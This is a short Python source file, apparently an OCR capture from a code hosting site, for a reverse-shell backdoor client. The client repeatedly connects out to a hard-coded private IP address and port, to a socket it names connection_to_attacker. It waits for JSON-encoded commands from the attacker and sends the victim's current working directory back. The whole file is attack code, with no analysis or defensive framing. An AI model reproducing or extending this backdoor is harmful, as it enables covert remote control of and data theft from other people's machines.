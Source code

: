 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    while True:
        command = reliable_recv()
        print("Command Recieved")
        if command == 'say':
            print("Hello World")
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        #random.randint(5,15)
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.39.129", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()

